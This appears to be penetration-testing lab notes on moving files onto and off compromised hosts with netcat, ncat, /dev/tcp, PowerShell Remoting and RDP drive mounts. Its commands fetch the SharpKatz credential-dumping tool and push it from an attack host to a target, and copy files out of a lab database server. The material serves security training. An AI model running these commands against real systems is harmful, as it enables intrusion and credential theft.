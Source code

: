 # Other File Transfer Methods

## Netcat
```shell
# Listening on target machine 
nc -l -p 8000 > SharpKatz.exe
#If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished.
ncat -l -p 8000 --recv-only > SharpKatz.exe

#Attack Host - Sending File to Compromised machine
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

#The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

#Attack Host - Sending File as Input to Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe

#Machine Connect to Netcat to Receive the File
nc 192.168.49.128 443 > SharpKatz.exe

#Attack Host - Sending File as Input to Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

#Miscellaneous File Transfer Methods
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe

#NetCat - Sending File as Input to Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe

#Ncat - Sending File as Input to Netcat
sudo ncat -l -p 443 --send-only < SharpKatz.exe

#Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the Fil
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## Powershell
We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use PowerShell Remoting, aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need **administrative access**, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration.
```shell
#From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.
whoami
# htb\administrator

hostname
#DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985
#ComputerName     : DATABASE01
#RemoteAddress    : 192.168.1.101
#RemotePort       : 5985
#InterfaceAlias   : Ethernet0
#SourceAddress    : 192.168.1.100
#TcpTestSucceeded : True

#Create a PowerShell Remoting Session to DATABASE01
$Session = New-PSSession -ComputerName DATABASE01

#Copy samplefile.txt from our Localhost to the DATABASE01 Session
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\

#Copy DATABASE.txt from DATABASE01 Session to our Localhost
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
xfreerdp and rdesktop allow copy from our target machine to the RDP session, but there may be scenarios where this may not work as expected.

As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session.
```shell
#Mounting a Linux Folder Using rdesktop
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'

#Mounting a Linux Folder Using xfreerdp
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```